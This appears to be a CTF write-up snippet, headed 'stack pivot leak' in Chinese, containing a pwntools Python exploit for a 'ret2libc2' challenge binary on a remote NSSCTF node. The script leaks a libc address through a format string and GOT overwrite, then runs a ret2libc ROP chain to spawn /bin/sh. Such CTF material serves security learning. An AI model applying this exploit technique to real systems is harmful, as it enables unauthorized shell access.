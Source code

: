 ### 迁移泄露

```python
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
mode=1
url='node2.anna.nssctf.cn'
port=28268
elf=ELF("./ret2libc2")
libc=ELF("./libc.so.6")
if mode == 0:
    io=process("./ret2libc2")
else :
    io=remote(url,port)


#leave_ret=0x
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']
complete=0x404070
func=0x40121f
magic=0x401252
bss=elf.bss()+0x500+0x500
rsp_8=0x401016
offset=0x30+8
payload=b'%13$s'.ljust(0x30,b'\x61')
payload+=p64(0x404038)
payload+=p64(func)
payload+=p64(puts_got)

#
io.sendafter("show your magic\n",payload)

read=u64(io.recv(6).ljust(8,b'\x00'))
log.success('read-{}'.format(hex(read)))

libc_base=read-libc.sym['read']
sys=libc_base+libc.sym['system']
puts=libc_base+libc.sym['puts']
printf=libc_base+libc.sym['printf']
setvbuf=libc_base+libc.sym['setvbuf']
bin_sh=libc_base+next(libc.search(b"/bin/sh\x00"))
pop_rdi=libc_base+0x2a3e5
ret=libc_base+0x29139

payload=p64(0)*2+p64(puts)+p64(printf)+p64(read)+p64(setvbuf)
payload+=p64(bss)+p64(magic)
io.sendafter("show your magic\n",payload)
#gdb.attach(io)
payload=offset * b'a'
payload+=p64(pop_rdi)
payload+=p64(bin_sh)
payload+=p64(ret)
payload+=p64(sys)
io.send(payload)

io.interactive()
```
